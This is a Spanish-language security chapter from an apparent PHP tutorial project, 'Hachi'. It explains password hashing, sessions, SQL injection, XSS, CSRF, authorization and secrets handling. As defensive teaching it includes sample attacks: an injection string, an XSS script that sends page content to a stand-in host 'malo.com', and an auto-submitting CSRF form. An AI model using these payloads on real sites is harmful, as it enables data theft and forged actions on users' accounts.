

# 5. Seguridad

Una red social guarda contraseñas y deja que cualquiera publique texto. Eso la convierte en un objetivo.
En esta guía vas a ver los ataques más comunes en la web y cómo se defiende Hachi de cada uno.

Al final hay una tabla con **los errores de seguridad que tenía este proyecto** antes de corregirlos:
son muy comunes y es la mejor forma de aprender a no cometerlos.

---

## 1. Contraseñas: nunca se guardan

Hachi **no guarda tu contraseña**. Guarda un **hash**: el resultado de pasarla por una función matemática
que no se puede revertir.

```php
// Al crear la cuenta (User::insertUser)
password_hash('mi-clave-123', PASSWORD_DEFAULT);
// "$2y$10$Jp3dK8zR1...": esto es lo que se guarda en la base de datos

// Al iniciar sesión (User::selectLoginUser)
password_verify('mi-clave-123', $hashGuardado);   // true o false
```

- Si alguien roba la base de datos, no puede leer las contraseñas.
- La misma contraseña da un hash distinto cada vez, porque `password_hash` le agrega una **sal** aleatoria.
  Por eso no se puede comparar en SQL (`WHERE password = ...`): hay que traer el hash y usar `password_verify`.

> **Cifrar no es lo mismo que hashear.** Lo cifrado se puede descifrar con la clave; un hash no se puede revertir.
> Para contraseñas, siempre hash.

## 2. Sesiones: cómo sabe el servidor quién eres

HTTP no tiene memoria: cada petición llega "sola". Para recordar quién inició sesión se usa una **sesión**:



- Los datos de la sesión (`$_SESSION`) quedan **en el servidor**. El navegador solo tiene un código aleatorio.
- Hachi solo guarda el `user_id` en la sesión. **El email y la contraseña nunca viajan en una cookie.**

La cookie de sesión tiene opciones de seguridad (`SessionManager::cookieOptions()`):

| Opción | Qué hace |
|---|---|
| `httponly` | JavaScript no puede leer la cookie. Si alguien logra meter un script en la página (XSS), no puede robarla |
| `samesite` = `Lax` | El navegador no envía la cookie en peticiones `POST` que vienen de otras webs (protege contra CSRF, punto 5) |
| `secure` | Si el sitio usa HTTPS, la cookie solo viaja cifrada |

Además, al iniciar sesión se llama a `session_regenerate_id(true)`, que cambia el código de la sesión.
Si alguien conocía el código anterior (por ejemplo, porque te lo hizo usar a propósito), ya no le sirve.

## 3. Inyección SQL

Pasa cuando los datos del usuario se mezclan con el texto del SQL.

```php
// ❌ MAL: el email se pega dentro del SQL
$sql = "SELECT * FROM users WHERE email = '$email'";
```

Si alguien escribe como email `' OR '1'='1`, la consulta queda:

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` siempre es verdad, así que devuelve **todos** los usuarios. Con otros textos se podrían borrar tablas.

```php
// ✅ BIEN: el SQL tiene un hueco (:email) y el dato va aparte
$stmt = $this->pdo->prepare("SELECT * FROM users WHERE email = :email");
$stmt->execute(['email' => $email]);
```

Con `prepare` + `execute`, la base de datos sabe que `:email` es **un dato** y nunca lo ejecuta como SQL.
**Todas las consultas de Hachi se hacen así.**

## 4. XSS (Cross-Site Scripting)

Pasa cuando el texto que escribió un usuario se muestra como HTML. Imagina que alguien publica:

```html
<script>fetch('https://malo.com/?robo=' + document.body.innerHTML)</script>
```

Si la vista hiciera `echo $post['content']`, ese script **se ejecutaría en el navegador de todas las personas**
que vean el timeline. Podría leer la página, publicar en su nombre, etc.

La defensa es **escapar** el texto antes de mostrarlo: convertir los caracteres especiales de HTML
en texto normal.

```php
echo htmlspecialchars('<script>alert(1)</script>');
// &lt;script&gt;alert(1)&lt;/script&gt;  ->  el navegador lo muestra como texto, no lo ejecuta
```

En Hachi:

- Las vistas usan `htmlspecialchars()` para **todo** lo que escribió un usuario: nombres, hashtags, posts.
- `Hashtag::toHtml()` escapa cada trozo del post antes de agregar los enlaces de los hashtags.
- En JavaScript, `alertDialog()` usa `textContent` (texto) en lugar de `innerHTML` (HTML).

> **Regla:** cada vez que muestres algo que escribió un usuario, escápalo. Sin excepciones.

## 5. CSRF (Cross-Site Request Forgery)

Imagina que tienes la sesión abierta en Hachi y entras a una web maliciosa que tiene esto escondido:

```html
<form action="https://hachi.com/post.php" method="POST">
    <input name="action" value="create">
    <input name="content" value="¡Visiten malo.com!">
</form>
<script>document.forms[0].submit()</script>
```

El formulario se envía solo a Hachi y, como el navegador adjunta tu cookie de sesión, se publicaría un post en tu nombre.
Hachi tiene dos defensas:

1. **La cookie es `SameSite=Lax`**: el navegador no la adjunta en un `POST` que viene de otra web,
   así que Hachi recibe la petición sin sesión y la rechaza.
2. **Los endpoints solo aceptan JSON** (`Controller::readJson()` exige `Content-Type: application/json`).
   Un formulario HTML no puede enviar ese tipo, y si otra web intenta hacerlo con JavaScript,
   el navegador primero le pregunta al servidor si lo permite (CORS), y Hachi no lo permite.

## 6. Autenticación y autorización

Son dos preguntas distintas:

- **Autenticación: ¿quién eres?** La responde la sesión. `Bootstrap::checkAccess()` no deja entrar
  a las páginas privadas sin sesión.
- **Autorización: ¿puedes hacer esto?** Por ejemplo, borrar un post. La responde la consulta:

  ```sql
  DELETE FROM posts WHERE post_id = :post_id AND user_id = :user_id
  ```

  `:user_id` es **el usuario de la sesión**, no un dato que envió el navegador. Si intentas borrar un post ajeno,
  la condición no se cumple y no se borra nada.

> **Regla:** para decidir permisos, usa siempre el usuario de la sesión. Nunca un id que venga del navegador:
> cualquiera puede cambiarlo con las herramientas del navegador.

## 7. Validar en el servidor

El formulario de registro tiene `required` y `minlength`, y el JavaScript cuenta los caracteres del post.
Eso ayuda al usuario, pero **no es seguridad**: cualquiera puede saltárselo con las herramientas del navegador
o enviando la petición directamente, por ejemplo con `curl`:

```bash
# macOS / Linux
curl -X POST http://localhost:8000/register.php -H "Content-Type: application/json" -d '{"email":"no-es-un-email"}'
```

Por eso `RegisterController::validate()` y `PostController::create()` vuelven a revisar todo en el servidor.
**La validación del navegador es para la comodidad; la del servidor es la que protege.**

## 8. Secretos y mensajes de error

- **El `.env` no se sube a Git** (está en `.gitignore`): tiene las contraseñas de la base de datos.
  Si se subiera a un repositorio público, cualquiera las podría ver.
- **`.htaccess`** impide descargar el `.env` y ver las carpetas `App` y `database` en un servidor Apache.
- **`APP_DEBUG=0` en el sitio publicado**: los errores de PHP pueden mostrar rutas, consultas o datos.
- Si falla la conexión a la base de datos, el usuario solo ve `Database connection error.` y el detalle
  va al log del servidor (`PDOClass`).

---

## Los errores que tenía este proyecto

Todos estos problemas estaban en el código y se corrigieron. Son errores muy comunes: aprende a reconocerlos.

| Error | Por qué era grave | Cómo se arregló |
|---|---|---|
| `PDOClass` hacía `echo` del host, usuario y contraseña de la base de datos | **Se veían en todas las páginas**, para cualquier visitante | Se quitó el `echo` |
| Las contraseñas se guardaban cifradas con `AES_ENCRYPT` y una clave del `.env` | Con la clave se podían descifrar **todas** las contraseñas | `password_hash` / `password_verify` |
| El `.env` con la clave estaba subido a Git | Cualquiera con acceso al repositorio tenía la clave | `.env` en `.gitignore` y `.env.example` como plantilla |
| La cookie de login guardaba el email y la contraseña, cifrados con una clave escrita en el código | Quien robara la cookie y viera el código podía obtener la contraseña | Sesión de PHP que solo guarda el `user_id` |
| `home.php` mostraba en pantalla el email y la contraseña de la cookie (`print_r`) | La contraseña aparecía en la página | `home.php` ahora muestra el timeline |
| El login comparaba con `password = (SELECT ... FROM users)` | Con más de un usuario la subconsulta devolvía varias filas y **el login fallaba siempre** | Buscar por email y comparar con `password_verify` |
| La revisión de sesión se hacía **después** de mostrar la página | La redirección llegaba tarde y no funcionaba | `checkAccess()` se ejecuta antes que el controlador |
| `display_errors` siempre activado | Los errores mostraban información interna | `APP_DEBUG` en el `.env` |
| El registro no validaba nada en el servidor | Se podían crear cuentas con datos inválidos | `RegisterController::validate()` |

## Lo que todavía se puede mejorar

Ningún sistema es perfecto. Estas mejoras quedan pendientes y son buenos [ejercicios](8-ejercicios.md):

- **Límite de intentos de login.** Hoy alguien podría probar miles de contraseñas seguidas (ataque de fuerza bruta).
- **El registro revela qué emails existen** (`That email is already registered`). Es un compromiso habitual
  entre seguridad y comodidad, pero conviene saberlo.
- **Contraseñas débiles.** Solo se piden 6 caracteres.
- **"Log out" es un enlace (`GET`).** Otra web podría hacerte cerrar la sesión con un enlace. Es poco grave, pero
  lo ideal es que las acciones que cambian algo usen `POST`.

## Lista de control para código nuevo

Antes de dar por terminada una funcionalidad, revisa:

- [ ] ¿Las consultas SQL usan `prepare` + `execute` con parámetros?
- [ ] ¿Todo texto de usuarios pasa por `htmlspecialchars()` en las vistas?
- [ ] ¿Los datos se validan en el servidor (largo, formato, que no estén vacíos)?
- [ ] ¿Los permisos usan el usuario de la sesión y no un id enviado por el navegador?
- [ ] ¿La página nueva necesita sesión? Si es pública, ¿está en `PUBLIC_CONTROLLERS` a propósito?
- [ ] ¿No quedó ningún `var_dump`, `print_r` o `echo` de prueba?
- [ ] ¿No hay contraseñas ni claves escritas en el código?

---

[← 4. Base de datos](4-base-de-datos.md) · Siguiente: [6. Frontend →](6-frontend.md)
